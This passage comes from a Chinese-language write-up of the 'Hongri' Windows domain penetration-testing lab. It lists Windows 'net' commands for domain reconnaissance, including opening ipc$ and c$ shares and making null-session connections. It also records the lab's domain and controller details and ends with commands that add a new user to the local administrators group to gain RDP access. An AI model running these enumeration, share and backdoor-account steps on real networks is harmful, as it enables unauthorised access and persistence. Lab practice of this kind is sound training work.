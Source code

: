 ![](https://img.l1uyun.one/红日靶场1-win域_image_16.png)

域渗透信息收集checklist
```bash
 ipconfig /all   # 查看本机ip，所在域
 route print     # 打印路由信息
 net view        # 查看局域网内其他主机名
 arp -a          # 查看arp缓存
 net start       # 查看开启了哪些服务
 net share       # 查看开启了哪些共享
 net share ipc$  # 开启ipc共享
 net share c$    # 开启c盘共享
 net use \\192.168.xx.xx\ipc$ "" /user:""    # 与192.168.xx.xx建立空连接
 net use \\192.168.xx.xx\c$ "密码" /user:"用户名"    # 建立c盘共享
 dir \\192.168.xx.xx\c$\user    # 查看192.168.xx.xx c盘user目录下的文件
 
 net config Workstation    # 查看计算机名、全名、用户名、系统版本、工作站、域、登录域
 net user                 # 查看本机用户列表
 net user /domain         # 查看域用户
 net localgroup administrators    # 查看本地管理员组（通常会有域用户）
 net view /domain         # 查看有几个域
 net user 用户名 /domain   # 获取指定域用户的信息
 net group /domain        # 查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）
 net group 组名 /domain    # 查看域中某工作组
 net group "domain admins" /domain  # 查看域管理员的名字
 net group "domain computers" /domain  # 查看域中的其他主机名
 net group "doamin controllers" /domain  # 查看域控制器（可能有多台）
```

权限是administrator

![](https://img.l1uyun.one/红日靶场1-win域_image_17.png)

发现有内网网段

![](https://img.l1uyun.one/红日靶场1-win域_image_18.png)

查看域用户

![](https://img.l1uyun.one/红日靶场1-win域_image_19.png)

查看域管理员信息

![](https://img.l1uyun.one/红日靶场1-win域_image_20.png)

整理一下收集到的win域信息

该域名为god.org，域控为OWA，域管理员为Administrator，内网网段为192.168.52.1/24，我们用ping命令探测域控的ip

![](https://img.l1uyun.one/红日靶场1-win域_image_21.png)

域控的ip为192.168.52.138

### 尝试rdp
接下来在win7机器上增加用户，看能不能rdp上去
```shell
net user l1uyun aBc12@liuyun
net localgroup administrators l1uyun /add
```
